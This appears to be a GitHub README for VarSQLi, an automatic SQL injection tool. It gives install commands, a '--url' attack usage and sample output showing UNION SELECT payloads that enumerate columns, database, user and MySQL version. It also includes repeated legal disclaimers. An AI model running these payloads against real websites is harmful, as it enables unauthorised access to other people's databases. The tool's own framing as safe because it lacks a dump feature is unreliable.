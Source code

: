 - [![.github/workflows/tests.yml](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml/badge.svg)](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml)
- [![Python|3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/)
- [![License](https://img.shields.io/badge/license-GPLv1-red.svg)](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE)
- [![Twitter](https://img.shields.io/badge/twitter-@Anonym0us_VNPC-blue.svg)](https://twitter.com/Anonym0us_VNPC)
# Variable-SQL-Injection
### Note From VarSQLi
> - _admin_ : [Twitter](https://twitter.com/Anonym0us_VNPC)
> - _Website_ : [Ghost Man](https://ghostmanews.blogspot.com)
> - _facebook_ : [adonis bertha](https://www.facebook.com/francesca.savino.18?mibextid=ZbWKwL)
> - _Github_ : @Phamchie

VarSQLi allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.
> warning: the tool will not have a dump database function, for the sake of protecting other people's private information, and absolutely not used for any other bad purpose, especially exploiting government and school sites  learn
### Screenshot
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/data/Screenshot_2023-08-02-00-24-06-25.jpg">

However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

> Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

>> Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

### setup - install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
- `git clone https://github.com/Phamchie/varsqli`
2. Navigate to the VarSQLi directory:
- `cd varsql`
3. Install the required dependencies by running the setup script:
- `python3 setup.py`
- `python3 varsqli.py --help`
> Full Source Setup
```
git clone https://github.com/Phamchie/varsqli/
cd varsqli
python3 setup.py
python3 varsqli.py --help
```
> Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

### Demo Attack 
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/.github/workflows/lv_0_20230803103153.gif">

#### How To Injection - Exploit 
- You can see that in the `--help` section, there is only one mode, `--url` to update the url to attack
```
              ___
 _____         H  _____     _ _  {1.1.5}
|  |  |___ ___[,]|   __|___| |_|
|  |  | .'|  _[(]|__   | . | | | {Pham Chien}
 \___/|__,|_| [)]|_____|_  |_|_|
               V         |_|  ghostmanews.blogspot.com


[+] Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.

usage: varsqli.py [-h] [--url URL]

VarSQLi - Auto SQL Injection tools

options:
  -h, --help  show this help message and exit
  --url URL   URL Target (ex :
              https://test.com/yourpath_vulnsqli.php?id=1)
```
- To attack the target , you write the command :
-  `python3 varsqli.py --url < url vulerable >`
- the result will be
```
[INFO] Testing connect to target url..
[INFO] Testing IF the target url content is stable
[INFO] Target is the content stable..
[INFO] Testing 'Generic atline queries'..
[INFO] Testing 'UNION SELECT NUMBER COUNT COLUMNS (MySQL Select).'
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2--+-'
[INFO] Total Response Content HTML stable : 200 OK
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2,3--+-'
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-49-50-36.jpg">

- it is starting to attack, and after a while exploiting with UNION SELECT payloads to get the column number of the website, it will announce like this
> it is the number of columns, payload , target, user , database and the target's MySQL version

<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/.github/workflows/Screenshot_2023-08-02-14-50-17-53.jpg">

- like last version, we don't have the feature to print database name and MySQL user, but i guarantee that the latest update version of too right now will have that feature 😃
> and here is the target database of tables and columns that VarSQLI has exploited
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-50-35-49.jpg">
> so we've come to the end, so what's the ending?

# Ending 
A tip and note to use :
- Can you see how dangerous the SQL injection vulnerability is, here is a piece of advice for you, this tool is only for the nature, is to show the database name, and will never provide  dump database for users only, to ensure the security of network security
> Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
# Contact
> - Contact : [phamchienlc06@gmail.com](phamchienlc06@gmail.com)
> - Telegram Channel : [My Channel](https://t.me/Anon0psNews)
> - Telegram : [Adonis Bertha](https://t.me/anonopsvn)
> - website : [website](https://ghostmanews.blogspot.com)

